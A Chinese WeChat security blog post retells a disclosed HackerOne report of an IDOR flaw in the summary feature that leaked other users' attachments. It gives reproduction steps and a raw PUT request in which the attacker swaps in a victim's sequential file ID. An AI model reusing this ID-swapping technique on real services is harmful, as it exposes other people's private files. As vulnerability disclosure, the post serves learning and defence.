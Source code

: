 #  Hackerone 附件功能存在IDOR越权漏洞15000$   
原创 Fighter001  重生者安全   2024-05-02 00:00  
  
由于微信公众号推送机制的改变避免错过文章麻烦您将公众号  
设为星标  
感谢您的支持！![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/v1.3.10/assets/newemoji/Social.png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYkkHQA0nVKBpKOsiaG0J32krN4DJxTDwtr6DssNkjCAvNlBb4YkhpyfibFzOjfZEyo7NtBs1S8Bqly3w/640?wx_fmt=png&from=appmsg "")  
  
想要学习：【  
漏洞挖掘，内网渗透OSCP，车联网，二进制】的朋友欢迎加入知识星球一起学习。如果不满意，72小时内可在APP内无条件自助退款。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYklprG8WAchaRgz0jbibibGtEDEoccibqeMBo4wM4DgGPdqfhUx5BiaM45LcH7ClKs7Yqp0ribONKmnNTTA/640?wx_fmt=png&from=appmsg "")  
  
![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/v1.3.10/assets/Expression/Expression_93@2x.png "")  
  
-->进入正题啦  
  
Hackerone 披露报告：  
Hackerone 提供了一种用于向各种程序报告漏洞的表格。其中表单支持上传文件和预览（图像或视频），但不允许使用属于其他帐户的文件 ID。但通过摘要报告功能，作为一名黑客，我只需更改 ID 即可泄露属于其他用户的文件。这是非常严重的。  
  
我尝试通过提交报告、编辑报告表单调用属于其他帐户的文件，但它不起作用，它总是得到响应 "was_successful":false,  
 。但幸运的是，我可以找到另一个端点，该端点能够读取属于其他帐户的文件，即在摘要报告功能中。![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYknKibytNhquIWB001XlxNzGbAxbvyNsvG5ql2OjKQwbaUgHanEnsiaJhS76uPibu2rIJIqkMRlPPhGLQ/640?wx_fmt=png&from=appmsg "")  
  
  
复现步骤：  
1. 攻击者创建草稿或现有报告，然后创建黑客摘要  
  
1. 然后编辑摘要并将文件提供给。  
  
1. 拦截与拦截将攻击者文件ID更改为受害者文件ID  
  
1. 在Markdown预览中读取boom文件。  
  
原始请求：  
```
附件通过添加摘要报告泄露：
受害者文件ID：
3155239
我会将 F3155244 更改为 3155239
攻击者文件：
3155241
3155242
“was_successful”：true，（如果文件来自攻击者）我将更改为受害者文件
“was_successful”：假，将假
尝试通过内容泄漏：误报
通过摘要泄漏：成功
```  
  
受影响端点  
```
PUT /reports/████/summaries/███████ HTTP/2
Host: hackerone.com
.....all header ...
Content-Length: 908
Origin: https://hackerone.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"id":████████,"category":"researcher","content":"TESTEDIT\n\n{F3155244} ","updated_at":"2024-03-30T17:16:29.625Z","user":{"id":█████,"username":"█████","name":"██████████████","bio":"please see pdfx","cleared":false,"verified":false,"website":null,"location":"","created_at":"2024-03-29T11:27:50.077Z","url":"https://hackerone.com/██████████","hackerone_triager":false,"hackerone_employee":false,"user_type":"hacker","profile_picture_urls":{"small":"/assets/avatars/default-█████.png","medium":"/assets/avatars/default-███████.png","xtralarge":"/assets/avatars/default-███████.png"}},"can_view?":true,"can_create?":true,"attachments":[],"action_type":"publish","attachment_ids":[
3155239]}
```  
  
漏洞影响：  
这是非常糟糕的，尤其是 id 形式只是按顺序排列的数字。我可以添加 hackerone 帐户的所有文件 ID，如果是视频的话我可以看到其他人的poc。  
**喜欢朋友可以点点赞转发转发。**  
****  
  
**免责声明：本公众号不承担任何由于传播、利用本公众号所发布内容而造成的任何后果及法律责任。未经许可，不得转载。**  
  
